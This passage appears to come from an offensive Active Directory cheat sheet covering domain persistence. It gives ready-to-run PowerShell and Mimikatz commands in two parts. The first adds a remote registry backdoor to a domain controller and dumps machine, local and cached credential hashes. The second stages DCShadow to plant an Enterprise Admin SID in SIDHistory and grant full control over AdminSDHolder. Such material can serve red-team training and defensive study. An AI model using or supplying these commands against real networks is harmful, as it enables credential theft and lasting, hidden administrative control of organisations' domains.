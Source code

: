 Using [DAMP toolkit](https://github.com/HarmJ0y/DAMP), we can backdoor the DC registry to give us access on the `SAM`, `SYSTEM`, and `SECURITY` registry hives. This allows us to remotely dump DC secrets (hashes).

We add the backdoor using the `Add-RemoteRegBackdoor.ps1` cmdlet from DAMP.

```powershell
Add-RemoteRegBackdoor -ComputerName dc.targetdomain.com -Trustee BackdoorUser
```

Dump secrets remotely using the `RemoteHashRetrieval.ps1` cmdlet from DAMP (run as 'BackdoorUser' user).

```powershell
# Get machine account hash for silver ticket attack
Get-RemoteMachineAccountHash -ComputerName DC01

# Get local account hashes
Get-RemoteLocalAccountHash -ComputerName DC01

# Get cached credentials (if any)
Get-RemoteCachedCredential -ComputerName DC01
```

### DCShadow

DCShadow is an attack that masks certain actions by temporarily imitating a Domain Controller. If you have Domain Admin or Enterprise Admin privileges in a root domain, it can be used for forest-level persistence.

Optionally, as Domain Admin, give a chosen user the privileges required for the DCShadow attack (uses `Set-DCShadowPermissions.ps1` cmdlet).

```powershell
Set-DCShadowPermissions -FakeDC BackdoorMachine -SamAccountName TargetUser -Username BackdoorUser -Verbose
```

Then, from any machine, use Mimikatz to stage the DCShadow attack.

```plaintext
# Set SPN for user
lsadump::dcshadow /object:TargetUser /attribute:servicePrincipalName /value:"SuperHacker/ServicePrincipalThingey"

# Set SID History for user (effectively granting them Enterprise Admin rights)
lsadump::dcshadow /object:TargetUser /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519

# Set Full Control permissions on AdminSDHolder container for user
## Requires retrieval of current ACL:
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=targetdomain,DC=com")).psbase.ObjectSecurity.sddl

## Then get target user SID:
Get-NetUser -UserName BackdoorUser | select objectsid

## Finally, add full control primitive (A;;CCDCLCSWRPWPLOCRRCWDWO;;;[SID]) for user
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=targetdomain,DC=com /attribute:ntSecurityDescriptor /value:O:DAG:DAD:PAI(A;;LCRPLORC;;;AU)[...currentACL...](A;;CCDCLCSWRPWPLOCRRCWDWO;;;[[S-1-5-21-1874506631-3219952063-538504511-45109]])
```
